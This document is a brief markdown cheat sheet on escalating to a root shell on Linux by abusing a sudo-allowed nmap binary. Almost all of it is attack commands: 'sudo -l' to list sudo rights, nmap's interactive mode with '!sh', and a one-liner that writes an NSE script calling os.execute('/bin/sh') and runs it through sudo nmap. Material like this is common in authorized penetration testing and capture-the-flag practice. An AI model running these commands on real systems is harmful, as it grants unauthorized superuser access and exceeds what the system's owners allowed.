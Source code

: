 # Nmap
***

- List commands that a user is allowed to execute with superuser privileges
```sh
sudo -l
```

### With Interactive Mode

- Launch nmap in interactive mode
```sh
sudo nmap --interactive
```

- Call a shell
```sh
!sh

```

### Without Interactive Mode

```sh
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse

```
